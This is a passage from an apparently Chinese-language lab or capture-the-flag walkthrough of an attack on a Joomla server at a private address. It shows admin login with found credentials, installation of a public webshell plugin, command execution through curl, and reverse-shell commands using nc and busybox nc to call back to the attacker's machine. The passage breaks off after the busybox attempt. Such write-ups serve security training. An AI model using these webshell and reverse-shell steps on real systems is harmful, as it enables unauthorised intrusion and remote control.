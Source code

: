 用用户名 `root` 和密码 `00dae9e3052fb2255408182602383ce1` 尝试登录 `http://192.168.205.207/administrator/`。

成功登录！我还以为要解个Hash呢。

#### 2. 上传Webshell插件

进了后台，这种CMS最常见的GetShell方式就是通过插件上传Webshell。

![image-20250511222523465](https://7r1umphk.github.io/image/20250511222523819.webp)在GitHub上搜了一下 "Joomla webshell plugin"，很快找到了一个现成的：
`https://github.com/p0dalirius/Joomla-webshell-plugin`

![image-20250511222613763](https://7r1umphk.github.io/image/20250511222613917.webp)

根据项目说明，在它的 `dist` 目录里下载一个打包好的 `mod_webshell.zip` 就行。

回到Joomla后台，"System" -> "Install" -> "Extensions"，上传并安装 `mod_webshell.zip`。
安装成功后，根据插件的说明文档，可以通过访问特定路径来执行命令。

![image-20250511222957053](https://7r1umphk.github.io/image/20250511222957204.webp)

测试一下命令执行：

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ curl -X POST 'http://192.168.205.207/modules/mod_webshell/mod_webshell.php' --data "action=exec&cmd=id"
{"stdout":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n","stderr":"","exec":"id"}
```

命令成功执行，当前用户是 `www-data`。

### 三、反弹Shell与提权

#### 1. 获取反弹Shell

先在Kali上监听端口：

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 8888    
listening on [any] 8888 ...
```

然后通过Webshell执行反弹命令：

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ curl -X POST 'http://192.168.205.207/modules/mod_webshell/mod_webshell.php' --data "action=exec&cmd=nc 192.168.205.206 8888 -e /bin/bash"
{"stdout":"","stderr":"sh: 1: nc: not found\n","exec":"nc 192.168.205.206 8888 -e \/bin\/bash"}
```

目标机上没有 `nc`。试试 `busybox nc`：

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx]                                                                                                                                                     
└─$ curl -X POST 'http://192.168.205.207/modules/mod_webshell/mod_webshell.php' --data "action=exec&cmd=busybox nc 192.168.205.206 8888 -e /bin/sh"
```
